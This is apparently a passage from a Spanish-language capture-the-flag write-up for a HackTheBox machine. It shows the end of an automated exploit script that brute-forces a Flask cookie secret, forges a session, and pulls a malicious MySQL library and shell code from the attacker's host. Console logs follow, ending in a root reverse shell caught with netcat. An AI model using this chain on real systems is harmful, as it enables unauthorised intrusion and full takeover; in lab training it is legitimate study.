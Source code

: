 ```python
        cookie = dict(session=target_cookie)
        os.system("rm pwned.md")
        s.post(f'{target_url}/export_note_remote', data=data, headers=headers, cookies=cookie)
        # enter directory and download malicious library
        create_file(commands[1].format(args.ip, 8000, lib_name))
        s.post(f'{target_url}/export_note_remote', data=data, headers=headers, cookies=cookie)
        os.system("rm pwned.md")
        # enter directory and download shell code
        create_file(commands[1].format(args.ip, 8000, shell_name))
        s.post(f'{target_url}/export_note_remote', data=data, headers=headers, cookies=cookie)
        os.system("rm pwned.md")
        # execute shell code to receive shell like root
        create_file(commands[2].format(shell_name, args.ip, args.port))
        s.post(f'{target_url}/export_note_remote', data=data, headers=headers, cookies=cookie)
        # kill subprocess
        p1.kill()
    except Exception as e:
        p.failure('{} ocurred'.format(e))

if __name__ == '__main__':
    key = bruteforce_cookie(load_wordlist())
    target_cookie = create_cookie(key)
    get_reverse_shell(target_cookie)
    os.system(f'rm {file_name}')

# References
#---------------------------------------------------
#https://github.com/Paradoxis/Flask-Unsign
#https://github.com/Paradoxis/Flask-Unsign-Wordlist
```

> Puede encontrar el script y archivos necesarios en mi repositorio [https://github.com/E1P0TR0](https://github.com/E1P0TR0/CVE-Machines_htb/tree/main/Auto-tools_Noter/autopwnd)
{: .prompt-info}

Ahora solo lo ejecutamos, abrimos el puerto especificado para recibir la shell y conseguimos la flag:

```console
❯ python3 autopwned.py -ip 10.10.14.181 -port 1234
[+] Creating user: Username -> Jnxzx , Password -> Jnxzx
[ ] Starting Brute-force attack: secret123
[*] Payload : {'logged_in': True, 'username': 'Jnxzx'}
[+] Secret key : secret123
[q] Creating new cookie with target payload: {"logged_in": true, "username": "blue"}
[+] Cookie : eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.YtTLNQ.TRLb4J_17aC1S6X1caMAvGGV7vQ
[▖] Getting reverse shell: IP -> 10.10.14.181, PORT -> 1234
[*] Openning port 8000 to share files: pwned.md, lib_mysqludf_sys_64.so, pwned_mysqlUDF.py
[*] Open the port 1234 to receive the shell (e.g : nc -lvnp 1234)
Press ENTER to continue
[*] Uploading and executing malicious files


───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.11.160.
Ncat: Connection from 10.10.11.160:59678.
bash: cannot set terminal process group (967): Inappropriate ioctl for device
bash: no job control in this shell
root@noter:/var/lib/mysql# whoami
```